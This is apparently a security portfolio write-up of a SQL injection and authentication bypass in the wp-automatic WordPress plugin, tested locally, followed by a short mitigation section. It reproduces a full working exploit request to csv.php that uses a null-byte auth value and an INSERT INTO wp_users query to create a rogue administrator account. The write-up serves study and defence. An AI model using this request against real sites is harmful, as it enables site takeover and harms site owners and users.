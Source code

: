 # Discovering and Mitigating SQL Injection Vulnerabilities in the ValvePress Automatic WordPress Plugin

**Year**: *2022*

**Skills**: *SQL Injection, WordPress, Security Assessment, Plugin Development, Vulnerability Discovery, Burp Suite, Kali Linux, WPScan, OWASP ZAP, Web Application Security, Penetration Testing, Secure Coding, Prepared Statements, Authentication Bypass, PHP, Database Security, Network Security, Ethical Hacking, Threat Modeling, Vulnerability Mitigation, Bug Bounty, Web Security Best Practices, Security Testing, Application Security, Cybersecurity, Exploit Development.*

## 🛠️ Project Overview
The **ValvePress Automatic Plugin** pulls content from various sources like RSS feeds, social media, and APIs for automatic posting. However, during a security assessment, I uncovered a critical vulnerability in the plugin’s code, specifically related to how it handled SQL queries. 🔍

## 💥 Identifying the Vulnerability
Using a controlled test environment with **Kali Linux**, **WPScan**, **WPBullet**, and **OWASP ZAP**, I pinpointed an SQL injection flaw in the `csv.php` file within the plugin’s `wp-automatic/inc` folder. The flaw existed due to improper handling of the `$auth` parameter, which allowed us to inject arbitrary SQL queries and bypass authentication. 💻

<img src="/portfolio/assets/projects/vulnerability_assessment/fig1.png" class="md-img" />

## 💣 Exploitation Process
- **Intercepting Requests**: Using **Burp Suite**, I intercepted HTTP POST requests containing the `$auth` parameter. 🕵️‍♂️

<img src="/portfolio/assets/projects/vulnerability_assessment/fig2.png" class="md-img" />

- **Injecting SQL**: By modifying the `$auth` parameter, I injected SQL queries to escalate privileges and add an administrative user to the database. 🔓
    ```
    POST http://localhost/wordpress/wp-content
    /plugins/wp-automatic/inc/csv.php HTTP/1.1
    Host: localhost
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; 
    rv:109.0) Gecko/20100101 Firefox/115.0
    Accept: text/html,application/xhtml+xml,
    application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Content-Type: application/x-www-form-urlencoded
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 336

    q=INSERT INTO wp_users (user_login, user_pass, user_nicename, 
    user_email, user_url, user_registered, user_status, display_name) 
    VALUES ('inseTQK', '$P$HxfvLR.Te6U9RQFKxgd345dt/7Nk8B/', 'inseTQK', 
    'inseTQK@concordia.com', 'http://168.0.0.1:8080', '2025-03-21 22:12:51', 
    0, 'inseTQK')&integ=298c8ba78748f02877a09f1a1e2006b1&auth=%00
    ```
- **Impact**: This allowed unauthorized access, including full control over the WordPress admin panel. ⚡

*Before Attack:*
<img src="/portfolio/assets/projects/vulnerability_assessment/fig3.png" class="md-img" />

*After Attack:*
<img src="/portfolio/assets/projects/vulnerability_assessment/fig4.png" class="md-img" />

## 🛡️ Mitigation
- **Null Byte Detection**: Added checks to prevent null byte injection. 🚫
- **Secure Password Validation**: Replaced insecure password handling with WordPress’s `wp_check_password()` method. 🔑

<img src="/portfolio/assets/projects/vulnerability_assessment/fig5.png" class="md-img" />

    ```
    21 | if (strpos($auth, "\0") !== false) {
    22 |    echo 'NULL byte detected';
    23 |    exit;
    24 | }
    ```
*After Mitigation:*
<img src="/portfolio/assets/projects/vulnerability_assessment/fig6.png" class="md-img" />

****************************